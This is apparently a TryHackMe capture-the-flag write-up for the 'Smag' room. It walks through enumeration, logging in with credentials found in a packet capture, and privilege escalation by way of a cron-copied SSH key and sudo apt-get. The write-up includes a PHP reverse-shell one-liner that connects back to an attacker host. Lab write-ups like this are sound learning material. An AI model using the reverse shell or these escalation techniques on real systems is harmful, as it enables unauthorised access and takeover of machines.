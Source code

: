 # Smag 
[Back to Tryhackme page](../index.md)

---

## Enumeration

Let's save IP address as smag.thm in /etc/hosts file. Now we can start enumeration of machine.

![Nmap scan](nmap%20scan.png)

There are two ports open i.e. HTTP and SSH.
Let's focus on HTTP first.

---

## Website enumeration
Website homepage says it's still under development. Let's enumerate subdirectories using gobuster.

![gobuster 1](gobuster%201.png)

There is "mail" subdirectory. It has emails in very different formats and also one pcapng file i.e packet captured files. Let's check that.

![development smag](development%20smag.png)

In one of packets , we can see HTTP capture on "developement.smag.thm" domain.
Also "login.php" site in it. Let's enumerate this domain.

![Gobuster 2](gobuster%202.png)

login.php has login page , by entering username and password we found in capture file , we can login into site and we get redirected to admin.php . We can enter commands here. But entering commands doesn't give us any output. Let's get reverse shell from this point. 

This is php site so let's get php reverse by using 
```php
php -r '$sock=fsockopen("ip",port);exec("sh <&3 >&3 2>&3");'
``` 
command.

---

## Reverse Shell

We got reverse shell on our machine. Let's upgrade to stable shell.
By looking around , we get to know there is "jake" user. Jake's home directory has user.txt file but it can only be read by jake. Let's try privilege escalation.

After checking around machine , we found a interesting cron job.

![cron job](cron%20job.png)

This file has read and write permissions for other user so let's try to use this point for privilege escalation.

> Refering to this webpage on how to escalate using ssh , I got to know that we can create ssh key pair on our machine and add public key to .authorized_key on victim's machine and we can login into machine using ssh.
> https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/

By adding our public key in jake_id_rsa.pub.backup , cron job will add content in that file to .authorized_keys folder and we will get ssh access for jake user.

---

## User flag
By login into machine , I got user flag.

![smag user flag](smag%20user%20flag.png)

Now we have to get root flag

--- 

## Root flag

![sudo permissions](sudo%20jake%20permissions.png)

Jake user can run apt-get with sudo privilege. Checking gtfobins for possible exploit.

![gtfobins smag apt-get](gtfobins%20apt-get.png)

Let's try all 3 techniques for privilege escalation. Third one gives us root shell.

![smag root flag](root%20flag%20smag.png)

Got root flag.

---

### Sources :
- [Tryhackme smag room](https://tryhackme.com/room/smaggrotto)
- [SSH Key exploit](https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/)









